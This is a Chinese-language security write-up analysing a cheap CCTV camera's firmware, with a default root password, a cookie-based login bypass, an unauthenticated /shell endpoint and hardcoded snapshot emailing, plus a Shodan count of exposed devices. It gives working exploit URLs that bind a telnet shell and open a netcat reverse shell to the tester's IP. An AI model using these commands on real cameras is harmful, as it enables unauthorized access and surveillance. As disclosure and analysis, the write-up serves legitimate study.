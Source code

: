 # 某CCTV摄像头漏洞分析

0x00 漏洞分析
=====

今天看老外分析了一款廉价CCTV摄像头的文章，地址在[https://www.pentestpartners.com/blog/pwning-cctv-cameras/](https://www.pentestpartners.com/blog/pwning-cctv-cameras/)，摄像头的amazon购买地址是[http://www.amazon.co.uk/dp/B0162AQCO4](http://www.amazon.co.uk/dp/B0162AQCO4)，老外曝光的漏洞主要有四个，分别是默认密码，web登陆认证绕过，内建的webshell，以及发送摄像图片到硬编码的邮箱地址，老外的文章经过我的测试，有错误和不全的地方，我都一一补充在下面了 ：）

### 1. 默认密码

WEB默认登陆名是admin，密码是空。

另外经过破解passwd，发现root的默认密码是"juantech"，可以通过telnet登录直接获取cmdshell，如图1:

![enter image description here](http://drops.javaweb.org/uploads/images/eb420eb943acfbe8be0125d9f77a55bedaa833cd.jpg)

### 2. WEB认证绕过

当你第一次访问的时候，index.html会要求你输入用户名和密码，输入正确，则跳转到view2.html。如果你直接访问view2.html，会被重定向到index.html，要求你输入帐户信息。下载固件用binwalk解压，如图2：

![enter image description here](http://drops.javaweb.org/uploads/images/baefef2743a4b6d333a569ce000fe139af8be2fa.jpg)

查看view2.js，发现以下内容：

```
$(document).ready(function(){
    dvr_camcnt = Cookies.get(“dvr_camcnt");
    dvr_usr = Cookies.get("dvr_usr");
    dvr_pwd = Cookies.get("dvr_pwd");
    if(dvr_camcnt == null || dvr_usr == null || dvr_pwd == null)
    {
        location.href = "/index.html";
    }

```

可以看到，如果`dvr_camcnt,dvr_usr,dvr_pwd`这3个值为空，就会跳转到index.html，所以我们只要将`dvr_camcnt,dvr_usr,dvr_pwd`设置不为空就可以了，通过查看view2.js源码可以知道,`dvr_camcnt`其实是控制频道(chanel)的，如下：

```
function goto_open_all()
 80 {   
 81     if(dvr_viewer && dvr_viewer.ConnectRTMP)
 82     {
 83         dvr_viewer.SetPlayerNum(dvr_camcnt);
 84 //      switch(dvr_camcnt)
 85 //      {
 86 //      case "4":
 87 //          dvr_viewer.flSetViewDiv(4);
 88 //          break;
 89 //      case "8":
 90 //          dvr_viewer.flSetViewDiv(9);
 91 //          break;
 92 //      case "16":
 93 //          dvr_viewer.flSetViewDiv(16);
 94 //          break;
 95 //      case "24":
 96 //          dvr_viewer.flSetViewDiv(25);
 97 //          break;
 98 //      }
 99         open_all(dvr_camcnt);
100     }
101     else
102     {
103         dvr_viewer = $("#viewer")[0];
104         setTimeout(goto_open_all, 1000);
105     }
106 }   

```

原文说dvr_camcnt只能设置2，4，8，24这几个值。实际测试，输入其他值都可以的。绕过登陆认证的证明如图3

![enter image description here](http://drops.javaweb.org/uploads/images/879e0cba40832f23301599c84f39e105b3e81151.jpg)

### 3.内建的webshell

通过查看解压后的固件目录，我们发现dvr_app包含了web服务，使用strings查看`dvr_app`二进制，可以看到`/moo,/whoami,/shell,/snapshot`等字符，尝试访问，发现没有任何验证就可以访问这些功能，如图4，

![enter image description here](http://drops.javaweb.org/uploads/images/a21a81561479ab14799d64a327beb28671a31026.jpg)

访问`/shell`的时候，卡住了，把`dvr_app`拖入ida，查看shell功能相应的处理逻辑，因为是固件是ARM小端的架构，可以直接在IDA里F5看伪代码。如图5

![enter image description here](http://drops.javaweb.org/uploads/images/ddb835b8abea7d949fdb7a9398deb7893ab1b0ac.jpg)

这里利用有2个方式，一个是直接telnetd绑定/bin/sh到任意端口，然后telnet连接过去，不需要认证就可以telnet登录，这个利用方式在你不知道固件本身TELNET的账户信息的时候，是个很常见的利用方法。命令如下：

```
http://目标ip/shell?/usr/sbin/telnetd -l/bin/sh -p 25

```

但是实际测试还要考虑防火墙/NAT的问题，好多设备仅仅映射80出来，你开通的其他端口，虽然设备打开了，但是你连接不上去。如图6.

![enter image description here](http://drops.javaweb.org/uploads/images/2bd2664df58e91f790c357db9d6482e2b5e32032.jpg)

这时候你可以用nc反弹shell出来，估计是因为固件版本不一样，我测试的目标busybox里是自带nc的，所以通过执行

```
http://目标ip/shell?/bin/busybox nc 我的IP 53 -e /bin/sh

```

就可以获取到反弹的cmdshell了，如图7

![enter image description here](http://drops.javaweb.org/uploads/images/81f574d4e56c9a1ba71853d2f86ef2e49150ed58.jpg)

文章说他的固件的busybox没有带nc，所以他静态编译了一个busybox，然后通过wget下载到一个可写的目录，然后赋予busybox可执行权限，最后运行nc命令。他已经提供了编译好的busybox，可以通过`http://212.111.43.161/busybox`来下载。

### 4.发送摄像图片到硬编码的邮箱地址

通过strings查看dvr_app二进制,还发现了另一处可疑的字符串

.rodata:002260E0 0000005A Ctarget=lawishere@yeah.net&subject=Who are you?&content=%s&snapshot=yes&vin=0&size=320x180

通过在github上搜索“lawishere@yeah.net",找到了https://github.com/simonjiuan/ipc/blob/master/src/cgi_misc.c，通过源码可以看到

```
#define DEFAULT_USER_EMAIL "dvruser@esee100.com"
#define DEFAULT_USER_PASSWORD "dvrhtml"
#define DEFAULT_SMTP_SERVER "mail.esee100.com"
#define DEAFULT_TARGE_EMAIL "lawishere@yeah.net"

```

@hdmoore在twitter也提到这个中国邮箱，所以我略微的看了看。目前mail.esee100.com已经不解析了，但是esee100.com的CNMAE解析到了www.dvrskype.com。通过查询www.dvrskype.com的域名信息，可以看到域名的拥有者是caostorm@163.com，如图8，注意这里ORG是"广州市九安光电技术有限公司",而github的上传者也是九安光电技术的技术人员。通过图9可以看到，他会把/whoami的返回信息和CCTV摄像头启动时的拍摄的照片发到lawishere@yeah.net，当然现在这个SMTP发送服务器已经不存在了，也有可能是当时开发留下的测试的功能。

0x01 全球统计
=====

因为是运行的自定义的web服务器，HTTP服务器头包含明显的“JAWS/1.0”特征，最近sans比较关注国内的漏洞扫描（https://isc.sans.edu/forums/diary/Scanning+for+Fortinet+ssh+backdoor/20635/），所以我就直接用shodan的结果了。如图10

![enter image description here](http://drops.javaweb.org/uploads/images/cd90a2430208049c79afd528302d4e685a88a09f.jpg)

可以看到这款廉价的CCTV摄像头对公网开放的全球大概有42545台，最常用的端口是80/8080，用的最多的国家是土耳其，印度，越南。 ：）

目前应该也有对这个CCTV摄像头的自动化恶意利用了，通过查看几个，发现几台设备的进程里都包含

```
 1560 root       620 S    ./dropbear -p 15081 -r /tmp/dropbear/dropbear_rsa_ho

```

以及wget远程下载恶意利用文件。

0x02 漏洞防护
=====

目前官方还没有补丁固件，建议不要对外开放80/23等管理端口。

0x03 感谢的人
=====

感谢低调的张老师教我逆向知识，张老师的好和善是对我问的幼稚问题都耐心的回答，从来没烦过。